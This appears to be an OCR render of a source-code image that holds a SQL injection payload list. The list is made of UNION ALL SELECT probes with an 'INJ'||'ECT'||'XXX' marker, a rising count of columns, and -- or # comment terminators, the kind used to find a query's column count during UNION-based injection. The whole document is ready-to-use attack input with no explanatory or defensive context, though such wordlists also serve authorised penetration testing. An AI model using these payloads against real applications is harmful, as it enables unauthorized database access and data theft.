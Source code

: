     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#

